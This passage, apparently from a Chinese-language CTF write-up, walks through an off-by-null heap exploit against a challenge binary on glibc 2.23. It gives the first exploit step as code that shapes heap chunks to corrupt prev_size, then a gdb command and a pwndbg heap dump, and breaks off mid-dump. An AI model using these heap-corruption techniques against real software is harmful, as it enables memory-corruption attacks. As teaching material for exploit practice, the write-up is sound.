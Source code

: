 **解决思路 - off-by-null**

  - 假设没有arbitrary heap overflow，并且程序开启了PIE，只利用off-by-null完成利用
  - off-by-null的利用可以参考 http://devel0pment.de/?p=688

**详细调试实战**

> 调试环境： Ubuntu 16.04 x64 (libc-2.23)

基本的EXP框架和交互函数封装和前面相同，这里不再赘述，直接进入主要构造利用部分。

**STEP1**  先通过添加4个节点申请4个chunk，其中chunk1用于触发off by null并更新chunk2的prev_size，chunk3用于防止bin和top_chunk合并：

```
add(0xf8, '0' * 0xf8)
add(0x68, '1' * 0x68) # trigger off-by-null
add(0xf8, '2' * 0xf8)
add(0x18, '3' * 0x10)
pause()
edit(1, 0x68, flat('1' * 0x68)) # 0x68可写到下一个chunk的prev_size(写到prev_size属堆正常机制，不算溢出)
```

> 待解决疑问: 实测时节点3写入长度为0x10而不能为0x18，不然后面delete(2)会报corrupted size vs. prev_size错误，为什么?

运行脚本并gdb附加调试，执行到pause时，先看下节点的堆内存布局

```
gdb -q -p `pidof pwn` -ex "*0x40BC05" -ex "c"
pwndbg> heapbase               # 查看heapbase地址
heapbase:  0xbec000
pwndbg> x/90gx 0xbec000        # 查看堆分配情况
0xbec000:      0x0000000000000000      0x0000000000000021
0xbec010:      0x0000000000400896      0x00000000004008b1
0xbec020:      0x0000000000000000      0x0000000000000101 \
0xbec030:      0x3030303030303030      0x3030303030303030 |
0xbec040:      0x3030303030303030      0x3030303030303030 |
0xbec050:      0x3030303030303030      0x3030303030303030 |
0xbec060:      0x3030303030303030      0x3030303030303030 |
0xbec070:      0x3030303030303030      0x3030303030303030 |
0xbec080:      0x3030303030303030      0x3030303030303030 |
0xbec090:      0x3030303030303030      0x3030303030303030 | chunkA
0xbec0a0:      0x3030303030303030      0x3030303030303030 |
0xbec0b0:      0x3030303030303030      0x3030303030303030 |
0xbec0c0:      0x3030303030303030      0x3030303030303030 |
0xbec0d0:      0x3030303030303030      0x3030303030303030 |
0xbec0e0:      0x3030303030303030      0x3030303030303030 |
0xbec0f0:      0x3030303030303030      0x3030303030303030 |
0xbec100:      0x3030303030303030      0x3030303030303030 |
0xbec110:      0x3030303030303030      0x3030303030303030 /
0xbec120:      0x3030303030303030      0x0000000000000071 \
0xbec130:      0x3131313131313131      0x3131313131313131 |
0xbec140:      0x3131313131313131      0x3131313131313131 |
0xbec150:      0x3131313131313131      0x3131313131313131 | chunkB
0xbec160:      0x3131313131313131      0x3131313131313131 |
0xbec170:      0x3131313131313131      0x3131313131313131 |
0xbec180:      0x3131313131313131      0x3131313131313131 /
0xbec190:      0x3131313131313131      0x0000000000000101 \
0xbec1a0:      0x3232323232323232      0x3232323232323232 |
0xbec1b0:      0x3232323232323232      0x3232323232323232 |
0xbec1c0:      0x3232323232323232      0x3232323232323232 |
0xbec1d0:      0x3232323232323232      0x3232323232323232 |
0xbec1e0:      0x3232323232323232      0x3232323232323232 |
0xbec1f0:      0x3232323232323232      0x3232323232323232 |
0xbec200:      0x3232323232323232      0x3232323232323232 | chunkC
0xbec210:      0x3232323232323232      0x3232323232323232 |
0xbec220:      0x3232323232323232      0x3232323232323232 |
0xbec230:      0x3232323232323232      0x3232323232323232 |
0xbec240:      0x3232323232323232      0x3232323232323232 |
```